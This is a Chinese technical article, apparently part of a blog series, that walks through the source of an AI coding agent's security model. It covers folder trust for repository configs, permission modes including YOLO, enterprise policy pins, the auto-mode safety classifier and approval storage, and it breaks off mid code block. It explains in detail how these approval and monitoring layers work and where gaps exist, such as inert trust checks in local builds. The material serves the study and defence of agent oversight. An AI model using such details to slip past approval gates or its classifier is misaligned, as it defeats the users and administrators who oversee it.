

# Grok Build 权限、审批、Folder Trust 与整体安全模型源码详解

本文继续第 18 篇的权限分析，但观察尺度更大。

第 18 篇主要回答：

> 一个 Tool Call 到来后，Permission Manager 怎样判断 Allow、Ask 或 Deny？

本文主要回答：

> 在 Tool Call 出现以前，哪些项目资源有资格进入 Agent？操作出现以后，谁有权批准？用户授权、企业策略、Auto、Always-approve、Hooks 与 Sandbox 又怎样共同构成最终安全边界？

这两个问题不能混在一起。一个目录被信任，不代表里面的每条命令都被批准；一个命令被批准，也不代表项目可以偷偷加载任意 MCP Server、Hook 或环境变量。

核心源码：

```text
crates/codegen/xai-grok-workspace/src/
  folder_trust.rs
  trust.rs
  permission/
    types.rs
    state.rs
    manager.rs
    resolution.rs
    policy.rs
    gate_preflight.rs
    prompter.rs
    hub_permission.rs
    auto_mode.rs
    shell_access.rs
    exec_risk.rs

crates/codegen/xai-grok-shell/src/
  agent/folder_trust.rs
  agent/mvp_agent/folder_trust_prompt.rs
  util/config/permissions.rs
  util/config/resolve/tool_approvals.rs
  session/acp_session_impl/
    tool_calls.rs
    hook_dispatch.rs
    spawn.rs
    sampler_turn.rs

crates/codegen/xai-grok-pager/src/
  app/acp_handler/permissions.rs
  app/dispatch/permissions.rs
  views/permission_view.rs
```

---

## 1. 先区分四个经常被混用的概念

Grok Build 至少有四种不同的安全判断：

| 概念 | 判断的问题 | 典型对象 | 结果 |
| --- | --- | --- | --- |
| Folder Trust | 这个项目能否贡献可执行配置？ | MCP、Hook、Plugin、环境变量、项目权限规则 | 加载或隔离项目层资源 |
| Permission | 这一次操作是否可以执行？ | Bash、Edit、MCP、WebFetch | Allow、Prompt、Deny、Cancel |
| Approval memory | 用户之前的批准能否复用？ | 命令前缀、MCP Tool/Server、域名 | 跳过相同范围的后续 Prompt |
| Sandbox | 已批准进程实际能碰到什么？ | 文件、网络、子进程、系统调用 | OS 层成功或拒绝 |

最重要的等式是：

```text
Folder trusted ≠ every tool approved
Permission allowed ≠ sandbox disabled
Sandbox enabled ≠ no approval needed
Remembered approval ≠ global unlimited authority
```

这四层分别解决不同威胁，任何一层都不能完整替代其他层。

## 2. 整体安全边界图



注意图中的两个前置门：

1. 项目资源先经过 Folder Trust；
2. 具体操作再经过 Permission。

因此，一个恶意仓库不能仅靠携带 `.mcp.json` 就让 Server 在用户机器上启动，也不能仅靠项目权限规则给自己打开 Always-approve。

## 3. 威胁模型：仓库本身是输入，不是可信程序

编程 Agent 天然会读取陌生仓库。陌生仓库却可能携带：

- 启动外部程序的 MCP Server 配置；
- 会在 Tool Call 前后执行命令的 Hooks；
- 自动注入子进程的环境变量；
- 可加载代码的 Plugin 路径；
- 改变 Tool Allow/Deny 的项目权限规则；
- 与内置 Agent 同名的项目 Agent；
- LSP 启动命令；
- `.envrc`；
- `.claude/settings.json` 与 `settings.local.json`；
- workflows、roles、personas 等可影响 Agent 行为的定义。

因此安全设计的起点不是“模型是否可靠”，而是：

> 项目目录中的配置必须被当成不可信输入，直到用户对该 workspace 作出信任决定。

## 4. `Folder Trust` 保护的是配置加载边界

`folder_trust.rs` 的模块注释明确把实现拆成两半：

```text
xai-grok-workspace: 决策侧
  - 扫描敏感配置
  - 读取/写入 TrustStore
  - 计算 Trusted / Prompt / Untrusted

xai-grok-shell: 消费侧
  - 保存进程内 DECISIONS cache
  - 决定 project_scope_allowed
  - 过滤项目 MCP/LSP/Plugin/Hook 等
  - 接受 GUI 反向 ACP 信任请求
```

这种拆分很有价值：纯决策可以独立测试，而真正的加载器必须在 Shell 侧统一消费相同结论。

## 5. Folder Trust 的纯数据结构

核心输出只有三个：

```rust
pub enum TrustOutcome {
    Trusted,
    Untrusted,
    Prompt,
}
```

纯决策函数的输入是：

```rust
pub struct DecideInputs {
    pub store_trusted: bool,
    pub repo_configs_present: bool,
    pub is_interactive: bool,
    pub key_recordable: bool,
}
```

它没有直接读取磁盘，也不弹 UI。磁盘扫描由 `decide_inputs*()` 完成，用户交互由上层完成。

这让决策优先级可以作为一个纯函数被穷举测试。

## 6. `decide()` 的精确优先级

源码中的顺序是：

```text
1. Feature 关闭                         → Trusted
2. TrustStore 中 self/ancestor 已信任   → Trusted
3. workspace key 不可安全记录           → Trusted
4. 没发现敏感项目配置                   → Trusted
5. 是交互终端                           → Prompt
6. 否则                                 → Untrusted
```

对应代码逻辑几乎就是六个顺序 `if`。

这里的 `Trusted` 不总是同一种含义：

- Store grant 是持久、明确的信任；
- “没有敏感配置”只是当前扫描结果；
- Feature off 是兼容模式；
- 不可记录根目录是为了避免永远无法持久化的重复询问。

消费侧因此不能把所有 `Trusted` 都永久缓存。

## 7. 为什么“没有敏感配置”只能是临时允许

假设启动时仓库没有 `.mcp.json`：

```text
t0: scan → no config → allow
t1: git pull 写入 .mcp.json
t2: session reload / next access
```

如果 t0 的允许被永久放入 `DECISIONS`，t1 新出现的可执行配置就会绕过信任提示。

Shell 侧因此把“无配置”视为 provisional allow：

- 当前可以继续；
- 不写成持久信任；
- 不作为不可变 cache verdict；
- 后续重新进入加载路径时仍可扫描。

这是典型的 TOCTOU 防御：检查结果只对当下文件状态有效。

## 8. `workspace_key` 为什么不能简单等于 `cwd`

TrustStore 的授权对象是 workspace，不是任意当前子目录。

`workspace_key(cwd)` 会结合 Git 拓扑：

- 普通仓库通常归一到 Git root；
- 从仓库子目录启动仍对应同一个授权；
- linked worktree 会尽量映射到合适的主 workspace；
- Grok 管理的 worktree 可折叠到源仓库；
- 仓库外才回退到 cwd；
- 必须避免把 bare repo 或特殊 gitdir 错误扩大到父目录。

如果直接用 cwd，用户可能在每个子目录反复被问；如果错误用过宽父目录，一次批准又可能覆盖大量无关项目。

## 9. TrustStore 的持久化位置

目录信任写在：

```text
~/.grok/trusted_folders.toml
```

关键安全属性是：

- 文件位于用户 Grok home，而不是项目目录；
- 仓库不能提交一个 `.grok/trusted_folders.toml` 自我授权；
- 路径在读写时做 canonicalize-or-owned 归一；
- 记录的是明确的 trusted/untrusted decision；
- 判断支持祖先级联与最具体记录覆盖。

信任状态与 permission state 并不在同一个文件里。

## 10. 为什么 TrustStore 支持祖先级联

如果用户明确相信一个统一管理的代码目录：

```text
/work/company
  service-a
  service-b
```

祖先 grant 可以让子 workspace 继承信任，减少重复审批。

但必须采用“最具体记录优先”：

```text
/work/company       trusted = true
/work/company/demo  trusted = false
```

这样可以对某个异常项目做局部撤销，而不破坏其他项目。

## 11. 为什么撤销一个从未信任的目录可能有害

`revoke_folder_trust_store()` 不会无条件写 `untrusted`。

原因是：给从未信任的 child 写一个最具体 deny，会毒化未来的祖先授权。

```text
t0: child 没有任何 decision
t1: 无条件 revoke 写 child=false
t2: 用户信任 parent=true
t3: child 因最具体 false 仍永远不继承
```

所以源码先检查 `was_trusted`，只对实际曾被信任的 workspace 持久化撤销。

进程内 cache 则可以立即降级，以防当前进程继续使用旧 grant。

## 12. 为什么 HOME 与文件系统根不能作为普通信任根

`is_unsafe_trust_root()` 会拒绝过宽或不可安全记录的 key，例如：

- 用户 HOME；
- 文件系统根；
- 非绝对路径；
- 其他可能造成授权范围不可控的根。

如果允许记录 HOME trusted，几乎所有项目都可能继承；这相当于关闭 Folder Trust。

源码对“cwd 本身就是 HOME”的特殊情况选择不持久 gate，避免每次都问一个永远不能记录的 key。它是可用性折中，不是对任意子仓库的全局授权。

## 13. 敏感配置扫描的单一事实来源

入口是：

```rust
repo_configs_present(cwd)
repo_config_kinds(cwd)
```

两者都委托给：

```rust
collect_repo_config_kinds(cwd, first_only)
```

区别仅是：

- Gate 热路径 `first_only = true`，发现第一项就返回；
- UI 展示 `first_only = false`，收集所有种类。

这样不会出现“安全门因为 A 触发，但 UI 因另一套扫描代码声称没有配置”的漂移。

## 14. 扫描出的配置种类

源码注释列出的 kind 包括：

```text
mcp
plugins
permission
lsp
envrc
claude
hooks
agents
roles
personas
workflows
```

典型 marker 有：

- `.mcp.json`；
- `.cursor/mcp.json`；
- `.grok/config.toml` 中非空 `[mcp_servers]`；
- `.grok/config.toml` 中非空 `[plugins].paths`；
- `.grok/config.toml` 中有效 `[permission]`；
- `.grok/lsp.json`；
- `.envrc`；
- 项目 `.claude/settings.json` / `settings.local.json`；
- 项目 Hook、Agent、Role、Persona 与 Workflow 定义。

## 15. 扫描错误为什么偏向“存在”

辅助函数采用：

```text
metadata 成功且符合类型       → present
NotFound                       → absent
其他 I/O 错误                  → present / uncertain
```

这是一种 fail-closed 策略。

如果 Permission denied、损坏 symlink 或瞬时 I/O 错误被解释成“文件不存在”，攻击者可能借不可读状态逃过 Gate。把 uncertain 当 present 至多多问一次，不会无声扩大权限。

## 16. 项目 `[permission]` 为什么也触发 Folder Trust

权限配置看起来不像“执行代码”，但它能改变操作批准边界。

一个仓库若携带：

```toml
[permission]
allow = ["Bash(*)", "MCP(*)"]
```

并在未信任时生效，就可能让项目自己批准高风险操作。

所以扫描器不只看 MCP/Plugin，也识别：

- 非空 `allow`；
- 非空 `deny`；
- 非空 `ask`；
- 非空 verbose `rules`；
- 非 table 的畸形值也按敏感 marker 处理。

## 17. Project Trust 如何进入 Permission resolution

Permission resolver 接受：

```rust
resolve_permissions_with_provenance(cwd, project_trusted)
```

当 `project_trusted == false`：

- 项目 `.grok/config.toml` permission rules 被丢弃；
- 项目树中的 `.claude/settings*.json` rules/defaultMode 被丢弃；
- 全局用户配置仍可加载；
- requirements 与 managed policy 仍可加载。

这说明 Folder Trust 不是简单地“禁止全部功能”，而是切断 project-controlled tier，同时保留用户和管理员控制面。

## 18. Project Trust 与 MCP 加载

项目 MCP 配置是最直接的代码执行风险之一，因为 stdio MCP Server 的启动命令本身就是宿主进程执行。

完整关系是：

```text
发现 project-scoped MCP definition
        ↓
project_scope_allowed(cwd)?
        ├─ false → 不注册/不启动该项目 Server
        └─ true  → Server 可进入 MCP registry
                         ↓
                 模型调用具体 MCP Tool
                         ↓
                 PermissionManager 再审批
```

所以“Server 能加载”与“Tool 能调用”仍是两层。

## 19. Project Trust 与 LSP

项目 `.grok/lsp.json` 也可能指定需要启动的程序。

未信任项目的 LSP 定义会被过滤。GUI 后来授予 trust 时，MCP、Plugin、Hook 等可以做一定程度的 hot reload；LSP bridge 通常在 session 构造时已固化，因此可能需要下一个 session 才生效。

这是一个安全优先的限制：宁可延迟启用，也不在复杂运行中途替换底层 bridge。

## 20. Project Trust 与 `.envrc` / Claude env

环境变量不是纯数据。它们可以改变：

- `PATH` 与实际执行程序；
- 动态链接器行为；
- Git/SSH transport；
- package manager registry；
- 子进程凭据与网络去向；
- Hook、MCP、LSP 的启动上下文。

特别是无 `direnv` 时，`.envrc` 可能经 shell 路径求值。因此 `.envrc` 和项目 Claude settings env 都属于 trust-sensitive resource。

## 21. Project Agent shadowing 为什么危险

项目可以定义与内置 Agent 同名的 Agent。如果只按名字信任“这是内置 explore”，项目定义可能 shadow 内置项，并附加 inline command hook。

`agent_inline_hooks_allowed` 因而依据 Agent scope，而不是只看显示名称：

- built-in/user scope 可按自身规则加载；
- project scope 的 inline hook 必须通过 Folder Trust。

安全判断必须绑定 provenance，不能绑定可伪造 label。

## 22. Release build 与 local/dev build 的差异

`folder_trust_inert()` 在没有 release `GROK_VERSION` stamp 的本地构建中返回 true。

此时：

- Folder Trust feature 被强制视为关闭；
- 不弹目录信任提示；
- 不 gate 项目 MCP/LSP/env/hooks 等；
- 不读写 `trusted_folders.toml`；
- 即使显式配置开启也不改变这一点。

这对开发者本机构建方便，但分析安全行为时必须注意：直接 `cargo run` 可能看不到 release 二进制的信任门。测试通过 `GROK_TEST_VERSION` 模拟 release build。

## 23. Folder Trust feature 的配置优先级

对 release build，开关大致按 `BoolFlag` 解析：

```text
GROK_FOLDER_TRUST env
    > user [folder_trust] enabled
    > managed config
    > remote folder_trust_enabled
    > default true
```

默认开启。远程开关可作为 kill switch，本地 user 配置也可显式关闭；但 local/dev build 的 inert 短路在这些层之前。

## 24. 启动目录与后续 Session cwd 的交互差异

启动阶段 stdin 尚未被 TUI 完全接管，因此 launch directory 可以使用阻塞式终端提示。

后续场景不同：

- 新 Session cwd；
- headless ACP client；
- doctor/inspection；
- leader 进程中的远端 session。

这些路径不能随便读取 stdin，否则会与 TUI 或协议 transport 竞争。因此只有明确允许的 launch resolve 才走原生 prompt；其他 unresolved dangerous workspace 默认保持 gated。

## 25. Shell 侧 `DECISIONS` cache

Shell 用进程内 map 保存：

```text
workspace_key → bool
```

它服务于频繁的 `project_scope_allowed(cwd)` 查询，避免每个 loader 重复提示或读 Store。

但 cache 不是盲目权威：

- cached true 可以快速允许；
- cached false 会重新检查 Store，以接受另一个进程刚写入的 `--trust`；
- 未缓存时重新 resolve；
- provisional allow 不进入长期 cache；
- revoke 先立即把 cache 降为 false。

## 26. 为什么 cached false 仍要重读 TrustStore

考虑 TUI 与 Agent leader 是两个进程：

```text
Agent process: cached false
TUI process: 用户执行 --trust，写入 TrustStore
Agent process: 再次检查 project_scope_allowed
```

如果 false 永不重读，授权只能重启后生效。

源码选择对 cached deny 做 Store reconciliation：Store 已有 grant 时，更新内存为 true。这是跨进程持久状态与本地 cache 的一致性修复。

## 27. GUI Folder Trust 使用反向 ACP 请求

支持的客户端会声明 capability：

```text
x.ai/folderTrust.interactive
```

Agent 可发起反向请求：

```text
x.ai/folder_trust/request
```

请求包含：

```text
sessionId
cwd
workspace
configKinds
```

客户端回传 trust 或 reject。未知/无法解析 outcome 按 reject 处理。

## 28. GUI Prompt 为什么是非阻塞的

Session 不需要等待 Folder Trust modal 才能启动。

流程是：

```text
session 先以 project resources gated 状态启动
             ↓
后台发起 interactive trust request
             ↓
用户稍后接受
             ↓
持久化 grant + 尝试 hot reload
```

这样避免 Session initialization 被长时间 UI 操作卡死，也保证等待期间不会先加载不可信资源。

## 29. 同一 Workspace 为什么只允许一个 Trust Prompt

系统对 workspace key 做 outstanding request 去重。

否则：

- 多个 Session 同时打开同一仓库；
- 每个 Session 都发现未信任；
- 用户收到多个相同 modal；
- 先接受一个、后拒绝一个可能产生混乱。

Dedup key 把信任问题提升到 workspace 级，而不是 session 级。

## 30. Trust Prompt 的失败策略

GUI 请求有长超时，但所有失败都不扩大权限：

- transport error → 保持 gated；
- timeout → 保持 gated；
- response decode error → 保持 gated；
- unknown outcome → reject；
- explicit reject → 保持 gated。

传输类失败会释放 dedup，让未来 Session 可重试；明确拒绝则保留抑制，避免不断骚扰用户。

## 31. Modal 打开期间撤销信任的竞态

典型竞态：

```text
t0 打开“是否信任” modal
t1 用户在另一路径执行 revoke
t2 旧 modal 返回 trust
```

接受响应前会重新检查 outstanding/dedup 状态。撤销动作可使旧 prompt 失效，避免过期 UI 响应重新授予权限。

这是 authorization freshness：批准必须对应仍有效的请求上下文。

## 32. 授权后的 Hot Reload 范围

接受 GUI trust 后，Shell 会：

- 持久化 TrustStore；
- 修复 cached false；
- 找到捕获到的同 workspace sessions；
- 按各自 cwd 重新加载项目 MCP/Plugin/Hook 等；
- 保持未支持热替换的组件到下个 Session。

注意 session snapshot 限制：prompt 打开后新建、但不在原 snapshot 中的 Session 可能继续 gated 到下一次加载。这是 fail-safe，而不是错放权限。

## 33. Tool Permission 的统一输入：`AccessKind`

当模型真正发出 Tool Call，具体 `ToolInput` 被归一为：

```rust
pub enum AccessKind {
    Read(Option<String>),
    Grep { path: Option<String>, glob: Option<String> },
    Edit(String),
    Bash(String),
    MCPTool { name: String, input: serde_json::Value },
    WebFetch(String),
    WebSearch(String),
}
```

权限不是仅对 Tool name 做字符串表，而是尽量携带安全相关参数：文件路径、完整命令、MCP args、URL 与 query。

## 34. `PermissionHandle` 与 Actor 边界

`PermissionHandle` 有两个形态：

```rust
pub enum PermissionHandle {
    Actor { ... },
    AllowAll,
}
```

正常 Session 使用 Actor：

- caller 用 unbounded channel 发 `PermissionCommand`；
- 每个请求携带 oneshot sender；
- actor 串行维护 permission state；
- caller await `Decision`；
- handle clone 可被 Subagent 共享。

`AllowAll` 是显式绕过构造，调用直接返回 `Decision::Allow`，必须由受控调用路径创建，不能由模型自己选择。

## 35. Permission 请求为什么携带 `RequestPathContext`

父 Agent 与多个 Subagent 可共享一个 Permission Manager，但子 Session 的 cwd 不一定等于 manager 创建时 cwd。

请求因此携带：

```rust
pub struct RequestPathContext {
    pub real_cwd: PathBuf,
    pub display_cwd: Option<PathBuf>,
}
```

它用于：

- 相对文件路径解析；
- rooted permission glob；
- shell-file operand 分析；
- protected edit 检测；
- ambient Git exec-risk 扫描。

如果错误锚定到父 cwd，子 Agent 的 `./secret` 可能匹配错误的 allow rule。

## 36. 一次 Tool Call 的完整审批调用链

```mermaid
sequenceDiagram
    participant M as Model
    participant S as AcpSession
    participant H as PreToolUse Hook
    participant P as PermissionManager
    participant C as ACP Client / Hub
    participant T as Tool
    participant O as Sandbox / OS

    M->>S: function call(name, JSON)
    S->>S: parse ToolInput and AccessKind
    S->>H: dispatch pre-tool-use
    H-->>S: continue or deny
    S->>P: request_with_path_context(...)
    P->>P: policy + mode + grants + floors
    alt prompt required
        P->>C: request_permission(options)
        C-->>P: selected / cancelled / followup
    end
    P-->>S: Decision
    alt Allow
        S->>T: dispatch tool
        T->>O: filesystem / process / network operation
        O-->>T: success or OS denial
        T-->>S: result
    else PolicyDeny
        S-->>M: denial as tool result; adapt
    else user Reject / Cancel
        S->>S: apply turn-control semantics
    end
```

## 37. PreToolUse Hook 与 Permission 谁先执行

`tool_calls.rs` 中 PreToolUse hook 位于 Permission 请求之前。

顺序是：

```text
Tool Call parsed
  → server-side PreToolUse hooks
  → client hook
  → plan-file special case
  → PermissionManager
  → Tool dispatch
```

Hook 可以提前 Deny，但不能用“Allow”绕过 Permission Manager。它是额外否决面，不是授权替代品。

## 38. `Decision` 不只是 Allow/Deny

核心枚举：

```rust
pub enum Decision {
    Allow,
    Ask,
    FollowupMessage(String),
    Reject(String),
    PolicyDeny(String),
    Cancelled,
}
```

关键差异：

- `PolicyDeny`：告诉模型策略拒绝，让它尝试更安全方案；
- `Reject`：用户直接拒绝，通常具有更强的回合控制含义；
- `Cancelled`：用户取消 prompt/turn；
- `FollowupMessage`：用户在拒绝 UI 中给出替代指示；
- `Ask`：内部策略状态，最终通常进入 prompt。

如果把所有拒绝折叠为同一个 error，Agent 要么不停重试，要么过早终止，都会损害安全和体验。

## 39. Permission mode 的三个值

配置层使用：

```text
ask
auto
always-approve
```

旧别名兼容：

- `approval_mode`；
- `yolo`；
- `default` 被解析为 Ask；
- 未知字符串也安全回退 Ask。

三者并非风险由低到高的简单布尔值：Auto 会使用安全 fast path 与分类器，Always-approve 则尽量跳过逐次人工确认，但仍不能越过管理员 Deny 与部分硬安全 floor。

## 40. Permission mode 配置优先级

UI 层显式配置优先级是：

```text
permission_mode > approval_mode > yolo
```

特别地，`yolo = false` 也是显式 Ask，不是“没有配置”。因此它可以阻止较低优先级 remote default 打开 Always-approve。

非 CLI 解析总体遵循：

```text
effective local/managed merged TOML > remote > Ask
```

CLI launch 的显式 mode 或 `--yolo` 则优先于普通 config，但仍接受 policy pin clamp。

## 41. Ask mode 的真实默认行为

Ask 并不表示所有 Tool 都弹窗。

Permission Manager 仍可自动允许：

- 普通 Read；
- Grep；
- WebSearch；
- 明确 safe command；
- static WebFetch allowlist；
- 已保存授权；
- managed Allow rule；
- Sandbox 明确可自动承载的 Bash。

Ask 的含义是：当没有更明确的安全依据时，由用户作决定，而不是“每个 Tool 都问”。

## 42. Always-approve / YOLO 的真实优先级

Manager 先执行 managed policy preflight，再检查 YOLO：

```text
policy Deny                → PolicyDeny，YOLO 不可越过
shell forced Ask           → YOLO 不可越过
otherwise yolo_mode=true   → Allow
```

所以 Always-approve 不是删除权限系统，只是一个高优先级批准来源。

同时它与 Auto 在运行时互斥：

- 打开 YOLO 会关闭 Auto；
- 打开 Auto 会关闭 YOLO；
- 有冲突的初始化配置时 Always-approve 优先，但 policy pin 可以把它压回 false。

## 43. 企业策略如何禁止 Always-approve

系统级 `requirements.toml` 可设置：

```toml
[ui]
disable_bypass_permissions_mode = true
```

旧兼容键：

```toml
[ui]
yolo = false
```

`yolo_disabled_by_policy()` 是共享判定入口。它只读取受控 requirements layers，而不会把普通用户配置中的同名值误当成管理员 pin。

## 44. 为什么 Pin 必须在每个入口重新 Clamp

Always-approve 可能从多个地方进入：

- CLI `--yolo`；
- config `permission_mode`；
- legacy yolo；
- TUI 快捷键；
- settings modal；
- ACP `yolo_mode_changed`；
- permission prompt 中的“一直不要再问”。

只在启动时检查一次不够。源码在：

- launch resolution；
- `PermissionHandle::set_yolo_mode()` 同步状态；
- Actor `SetYoloMode` authoritative branch；

重复 clamp，避免客户端在 Session 中途绕过 pin。

## 45. 为什么 UI display 也必须 Clamp

如果底层已经因 policy pin 禁止 Always-approve，但设置页仍显示启用，用户会对安全状态产生错误判断。

因此 display resolver 会把被禁止的 AlwaysApprove/Auto 展示为 Ask，并附带 block reason。安全 UI 必须描述 effective authority，而不是只回显原始配置。

## 46. Pin 还要过滤“等价 YOLO”的规则

用户可能不打开 YOLO，却配置：

```text
Allow Any(*)
Allow Bash(*)
Allow MCP(*)
Allow WebFetch(*)
```

这些 catch-all allow 在效果上可能等于绕过审批。

当 pin 生效时：

- 非管理员来源的危险 catch-all allow 被丢弃；
- SystemRequirements / ManagedSettings 来源的管理员规则可保留；
- Read/Edit/Grep 的 file-only catch-all 不一概视为 YOLO 替代；
- 被跳过规则记录 provenance，供 inspect/诊断展示。

## 47. Permission rule 的来源与优先级

Resolver 收集：

```text
system requirements
managed-settings.json
managed config layers
user/project config.toml
.claude/settings.json
CLI merge rules
```

来源顺序主要用于 provenance 和 scalar ownership；规则决策本身采用：

```text
Deny > Ask > Allow
```

这意味着低层 Deny 不会因另一个高层普通 Allow 被最后写入而覆盖。安全规则不是简单 last-write-wins 数组。

## 48. Managed `defaultMode` 与用户 `defaultMode`

Managed settings 若设置 `permissions.defaultMode`，它拥有 mode scalar，用户/项目 defaultMode 不再覆盖。

典型映射：

| defaultMode | 内部效果 |
| --- | --- |
| `bypassPermissions` | synthetic catch-all Allow，受 pin 约束 |
| `acceptEdits` | synthetic Allow Edit |
| `default` / `plan` | 不加 synthetic grant |
| `dontAsk` | `PromptPolicy::Deny` |
| `auto` | `PromptPolicy::Auto`，Manager seed Auto |

显式 Deny 仍可压过 synthetic Allow。

## 49. `PromptPolicy::Deny` 与 Policy Deny

`dontAsk` 不等于预先拒绝所有 Tool。

Manager 先检查：

- managed Allow；
- safe operation；
- persisted/session grant；
- static allowlist；
- 其他合法 pre-decision。

只有“本来需要 prompt 且没有预批准”的操作才变成：

```text
Decision::PolicyDeny("denied by prompt policy ...")
```

这适用于 headless/企业场景：绝不弹人机审批，但仍可运行已明确允许的工作。

## 50. Managed policy preflight 为什么在 Fast Path 前

Manager 在 YOLO、Auto、Sandbox auto-allow 前计算：

```text
direct rule decision
bash command gate
shell file-access gate
```

然后合并为 `GatePreflight`。

如果先跑 fast path，再查 Deny，任何“很安全”的启发式误判都可能越过管理员策略。安全顺序必须是强策略先于便利性优化。

## 51. 两种 `Ask` 的 provenance

Shell 分析可能产生两种 Ask：

```rust
AskRuleMatch
AskFailClosed
```

- `AskRuleMatch`：确实匹配了管理员指定的 ask rule，必须保持人工审批；
- `AskFailClosed`：解析器无法可靠拆解命令，为避免误放行而升级 Ask。

Auto mode 可让分类器裁决部分 `AskFailClosed`，但不能用模型分类器抹掉明确的 `AskRuleMatch`。

## 52. `GatePreflight` 的合并规则

Gate decision 的强度是：

```text
Reject > AskRuleMatch > AskFailClosed
```

它同时保留：

- direct policy；
- Bash segment gate；
- shell-file gate；
- 是否允许 Auto classifier 接手 fail-closed Ask；
- 最终 telemetry prompt trigger。

一次预计算避免 manager 在多个分支重复拼接布尔值而发生逻辑漂移。

## 53. Auto mode 不是静默 Always-approve

Auto mode 的三路 fast path：

```text
Allow
PromptUser
Classify
```

然后分类器给出：

```text
Allow
Block
Unavailable
```

它会看 AccessKind、具体参数、近期 transcript、项目 `AGENTS.md` 与历史用户审批。它的目标是减少机械确认，同时保留真人交互边界。

## 54. Auto Classifier 的上下文隔离

分类器看到的上下文经过处理：

- 近期 turn 有长度限制；
- 用户文本和 assistant tool args 标为 untrusted content；
- heading 被 neutralize，降低伪造系统段落的风险；
- 历史 permission decision 以独立结构化 JSON 渲染；
- MCP args 截断后仍进入 detail，不能只按工具名猜风险；
- project instructions 与 conversation 分区组织。

分类器仍不是硬安全边界，硬 Deny 与真人-required 操作不能仅靠它放行。

## 55. Auto Block 为什么有两种结果

一般 Classifier Block 在预算内产生 `PolicyDeny`：

- 不弹用户；
- 把安全说明返回模型；
- 要求模型选择更安全的方法；
- 连续/总拒绝计数增加。

但以下 Block 会转人工 prompt：

- deferred gate Ask；
- Bash request floor；
- 连续拒绝达到 3 次；
- 总拒绝达到 20 次。

这样既能自动阻止危险尝试，也避免模型长期卡在无提示的拒绝循环。

## 56. Auto timeout 与 unavailable 为什么 Fail to Prompt

分类器超时或不可用时，不默认 Allow，而是：

```text
auto_forced_prompt = true
reason = auto_classifier_timeout / unavailable
```

这是关键 fail-safe：依赖的智能判断失效时，控制权回到用户，而不是把“无法判断”解释成安全。

## 57. Permission State 保存在哪里

工具批准状态按 workspace/session cwd 目录保存，大致位于：

```text
~/.grok/sessions/<cwd-derived-key>/permission.toml
```

若有 `client_identifier`：

```text
permission_<sanitized-client-id>.toml
```

读取时优先 per-client 文件，再回退通用文件。这减少不同客户端 UI/审批语义间的意外共享。

写入使用 atomic writer，旧状态文件还会按 age 做清理。

## 58. `PermissionState` 具体保存什么

核心字段：

```rust
edit_policy
allow_bash_execute
allowed_bash_commands
disallowed_bash_commands
allowed_bash_globs
allowed_web_fetch_domains
allowed_mcp_tools
allowed_mcp_servers
validated_mcp_server_grants_version
```

并非所有 UI 的“session”选项都持久化。例如“本 Session 允许全部 Edit”现在只保存在 actor 内存的 `allow_edits_for_session`。

## 59. 为什么 Edit Session Grant 不再持久化

历史实现把：

```text
Yes, allow all edits during this session
```

写成 `edit_policy=Allow` 到磁盘，导致进程重启后仍有效，与文案不符。

现在启动加载时会迁移旧值：

```text
EditPolicy::Allow → EditPolicy::Ask
```

新授权只存在内存 flag，真正随 Session 结束失效。

这是授权 lifetime 必须与 UI 承诺一致的典型修复。

## 60. `remember_tool_approvals` 是独立 Feature Gate

环境变量：

```text
GROK_REMEMBER_TOOL_APPROVALS
```

解析优先级大致是：

```text
requirements > env > user config > managed > remote > false
```

关闭时，UI 移除 granular “Always allow” 选项；开启时，已记录 grant 还可以满足某些 policy Ask 的“问一次后记住”语义。

默认 false 是 fail-safe，防止客户端在未统一支持 scope 展示时意外扩大持久授权。

## 61. Bash Approval 的作用域

Bash 可保存：

- 完整命令 exact grant；
- 选择出的 primary command literal prefix；
- 用户编辑的 glob pattern；
- persistent deny prefix。

literal prefix 与 glob 分库存储：

```text
allowed_bash_commands  // 字面 prefix
allowed_bash_globs     // 明确由用户编辑的 glob
```

否则一个包含 `*` 的普通命令可能被误解释成通配授权。

## 62. MCP Approval 的 Tool 与 Server scope

MCP 可以批准：

```text
exact qualified tool name
validated server prefix
```

例如：

```text
linear__create_issue       // tool scope
linear                     // server scope
```

Server scope 风险更大，因此 qualified name 必须经 `parse_mcp_qualified_name()` 验证；畸形 `__tool`、空 server 等 fail closed。

## 63. 为什么 MCP Server Grant 有版本号

状态包含：

```text
validated_mcp_server_grants_version
```

旧版本可能在更宽松的解析条件下保存过 server grants。加载旧状态时：

- 检测 legacy version；
- 清空 server-wide grants；
- 升级 marker；
- 原子写回。

安全数据格式迁移不能只升级 schema，还要撤销无法证明来源合法的宽授权。

## 64. 为什么不能相信 Client 回传的 MCP scope 文本

用户在 UI 中选择 Tool/Server scope 后，client 会回传 meta。但 Manager 不把它当授权事实来源。

处理原则：

- Tool grant 使用当前 `AccessKind` 中的真实 tool name；
- client tool name 不一致时记录 warning，仍以 access name 为准；
- Server grant 从 access name 重新解析 canonical server；
- client server 与 canonical 不一致时降级为 tool scope；
- malformed input 也降级到更小 blast radius。

UI meta 是意图提示，不是可独立扩大权限的 capability token。

## 65. WebFetch Approval 的 scope

WebFetch 先解析 URL：

- static allowlist 可直接允许；
- user-approved normalized domain 可允许；
- 未批准域名弹 prompt；
- 无 host 或 URL 无法解析则不保存 domain grant；
- “always allow domain” 从当前 URL 重算 domain。

与 MCP 一样，持久化对象来自实际 AccessKind，而不是盲信客户端字符串。

## 66. ACP `request_permission` 的 wire 结构

Agent 构造：

```rust
RequestPermissionRequest::new(
    session_id,
    tool_call_update,
